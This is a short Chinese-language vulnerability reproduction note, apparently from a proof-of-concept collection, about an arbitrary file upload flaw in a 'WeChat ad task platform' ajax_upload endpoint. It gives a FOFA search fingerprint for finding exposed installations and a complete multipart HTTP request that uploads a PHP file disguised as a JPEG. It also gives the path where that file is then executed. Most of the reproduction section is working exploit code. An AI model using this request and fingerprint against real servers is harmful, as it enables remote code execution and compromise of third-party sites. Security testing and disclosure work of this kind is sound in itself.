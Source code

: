 # 微信广告任务平台 ajax_upload存在任意文件上传漏洞

# 一、漏洞简介
微信广告任务平台ajax_upload存在任意文件上传漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

# 二、影响版本
+ 微信广告任务平台

# 三、资产测绘
+ fofa`"/tpl/Public/js/func.js"`
+ 特征

![1727407956123-3442212d-99d7-4de5-8733-ed2089d55960.png](./img/Y73xFAtkBGmAxNK9/1727407956123-3442212d-99d7-4de5-8733-ed2089d55960-108936.png)

# 四、漏洞复现
```java
POST /index.php/Home/index/ajax_upload HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 197
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCc7iBZFp1mvojsxn
Accept: */*
Origin: http://127.0.0.1
Referer: http://127.0.0.1/index.php/Home/Index/index.html
Cookie: think_language=zh-CN; BJYADMIN=2150gjbkj92r835kg2dn9u9i75
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.0.0 Safari/537.36

------WebKitFormBoundaryCc7iBZFp1mvojsxn
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundaryCc7iBZFp1mvojsxn--
```

![1727407992383-97ec806a-1961-4feb-b6c8-f3df0bde519b.png](./img/Y73xFAtkBGmAxNK9/1727407992383-97ec806a-1961-4feb-b6c8-f3df0bde519b-364394.png)

```java
https://xxxx/Uploads/images/2024-09-27/66f626b7a5af8.php
```

![1727408017462-be496d1f-b3c1-4344-bdbd-fc1f41b87e83.png](./img/Y73xFAtkBGmAxNK9/1727408017462-be496d1f-b3c1-4344-bdbd-fc1f41b87e83-782850.png)



> 更新: 2024-10-22 09:36:08  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zhsn7ptr9pmr61nd>